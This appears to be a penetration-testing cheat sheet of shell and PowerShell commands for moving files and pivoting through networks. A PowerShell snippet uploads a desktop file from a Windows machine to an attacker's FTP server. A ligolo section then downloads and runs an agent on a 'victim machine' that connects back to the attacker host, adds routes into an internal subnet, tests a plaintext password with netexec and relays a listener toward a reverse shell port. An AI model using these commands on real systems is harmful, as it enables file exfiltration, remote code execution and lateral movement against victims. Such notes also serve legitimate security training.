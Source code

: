 ```bash
systemctl restart vsftpd

4. Run powershell script to uplaod file to vsftpd
$client = New-Object System.Net.WebClient
$client.Credentials = New-Object System.Net.NetworkCredential("user", "parrot")
$client.UploadFile("ftp://192.168.56.101/home/user/hi.txt","C:\Users\User\Desktop\history")
```

### vsftpd
```bash
1. Download vsftpd
sudo apt install vsftpd
2. Allow write from config file /etc/vsftpd.conf
write_enable=True
3. Restart
sudo systemctl restart vsftpd
4. Test it
ftp localhost


```


### ligolo
```bash
# on kali machine
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert

# on victim machine
iwr -uri http://192.168.45.202/agent.exe -outfile agent.exe
.\agent.exe -connect 192.168.45.202:11601 -ignore-cert

# back on kali(ligolo)
# first type session
session
# and type 1(or what you want to use)
1
# check network interface
ifconfig

# let's add routing table( on a new tab)
sudo ip route add 10.10.210.0/24 dev ligolo
(When you want to delete after, sudo ip route del 10.10.210.0/24 dev ligolo)
# confirm if it's added
ip route list

# now back to ligolo(kali)
# make sure we're on the right session by typing session 1
start

# check if it's working with netexec
netexec smb 10.10.210.148 -u web_svc -p Diamond1

# add listener (so the internal machine will shoot the connection through this port)
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
```
